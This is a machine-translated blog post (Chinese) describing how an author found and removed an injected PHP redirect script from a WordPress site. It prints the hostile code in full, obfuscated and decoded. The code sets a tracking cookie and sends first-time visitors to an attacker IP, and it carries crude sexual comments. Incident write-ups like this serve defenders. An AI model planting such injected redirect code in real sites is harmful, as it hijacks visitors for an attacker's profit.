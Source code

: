 # 从 Wordpress 网站清除 Bloodninja PHP 攻击

> 原文：<https://infosecwriteups.com/cleaning-bloodninja-php-attack-from-website-7703513bd133?source=collection_archive---------0----------------------->

给个背景，我们的网站最近被攻击者攻击赚钱了。好吧，这篇文章对于安全领域的专业人士来说可能非常简单，因为这是我第一次只用逻辑来清理黑客。

好了，攻击是如何工作的，在新计算机的第一次访问中，它会将 302 服务器端重定向到一个恶意的 IP 地址(http:// 134.249。116.78/index.php)。但第二次访问时没有出现这种情况，网站正常打开。这显然意味着恶意代码正在跟踪过去的访问。所以我首先想到的是饼干。

![](img/8218857103bf326fc913071dcc2e6887.png)

图片来源:solutionsreview.com

我将我们公司的网址列入黑名单，禁止在我的浏览器上存储 cookies。由于没有 cookies，每次访问都被重定向到恶意 IP 地址。有了明确的操作方式，我启用了公司域的 cookie，发现一个名为“htp_uid_utm”的 cookie 在 117 小时或 4 天 21 小时后过期。这意味着我们的用户在 4 天 21 小时后的第一次访问和任何重复访问都为攻击者赚了钱。

![](img/ae192f5cb9944ca6c64836d86fa3e0c2.png)

在 Firefox 浏览器中阻止 cookies

不管怎样，我现在的目标是 cookie 'htp_uid_utm '。所以我从我们的服务器上下载了所有文件，并在 linux 终端上运行了一个 grep

**grep -rnw。-e "htp_uid_utm" | less**

还有惊喜！它没有返回任何结果。这可能意味着攻击者混淆了代码。快速在线搜索发现对混淆代码使用了“base64_decode()”。很自然地引出了我的下一个 grep 命令。

**grep -rnw。-e "base64_decode(" | less**

这揭示了大量运行恶意代码的文件。

Mobilefish [的一个网站 https://www . mobile fish . com/services/eval _ gzinflate _ base64/eval _ gzinflate _ base64 . PHP](https://www.mobilefish.com/services/eval_gzinflate_base64/eval_gzinflate_base64.php)帮助解读代码:

```
if(!empty/*Bloodninja: I lick your earlobe, and undo your watch.*/($_SERVER[“HTTP_USER_AGENT”])):$_šÃÆ±ÄÄ=array(“Chro\155e”,”\x46\151refo\x78",”Trident”,”MSIE”,”W\151ndows”,”\x4cinux”,”Ip\150on\x65",”Android”,”Opera”,”Safari”);foreach($_šÃÆ±ÄÄ as$_ß):if(sTRipos($_SERVER[“HTTP_\x55SER_AGENT”],$_ß)!==/*Sarah19fca: mmmm, okay.*/false/*Bloodninja: I take yo pants off, grunting like a troll.*/):if(!isset($_COOKIE[“\x68tp_uid_ut\x6d”])):sETcOOKIe(“htp_ui\x64_u\164m”,”1",TiME()+07020/*Sarah19fca: Yeah I like it rough.*/*030/*Bloodninja: I smack you thick booty.*/*02);HeadEr(“Location: [http://134.\x3249.116.78/ind\x65x.php](http://134.\x3249.116.78/ind\x65x.php)");die/*Sarah19fca: Oh yeah, that feels good.*/();endif;endif;endforeach;endif;;/*Bloodninja: Smack, Smack, yeeeaahhh.*/
```

于是就出现了 COOKIE check
*isset($ _ COOKIE[" \ x68tp _ uid _ ut \ x6d "])*
和恶意重定向
*HeadEr(" Location:*[*http://134。\ x 3249 . 116 . 78/ind \ x65x . PHP*](http://134.\x3249.116.78/ind\x65x.php)*)；*

此外，攻击者将这次袭击命名为“血忍者”。

只是为了确认，在运行解码器后，输出是

```
if(!empty($_SERVER[“HTTP_USER_AGENT”])):$_Ʊ=array(“Chrome”,”Firefox”,”Trident”,”MSIE”,”Windows”,”Linux”,”Iphone”,”Android”,”Opera”,”Safari”);foreach($_Ʊ as$_߅):if(sTRipos($_SERVER[“HTTP_USER_AGENT”],$_߅)!==false):if(!isset($_COOKIE[“htp_uid_utm”])):sETcOOKIe(“htp_uid_utm”,”1",TiME()+07020*030*02);HeadEr(“Location: http:// 134.249\. 116.78/index.php”);die();endif;endif;endforeach;endif;;
```

有了这个认识，接下来我从 grep 列出的所有文件中删除了这个恶意代码。这些文件中的一些有“wp_”前缀，但是在 https://github.com/WordPress/WordPress 托管的 WordPress 代码中没有。我只是把这些文件的 Linux 权限从 644 改成了 000，这样如果再次发生攻击，他们就无法创建这些现有的无法访问的文件了。

就这样，我们的网站像以前一样运行了。

这是给攻击者的，就像在他混乱的代码中的注释一样，“啪，啪，耶啊啊。”

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)
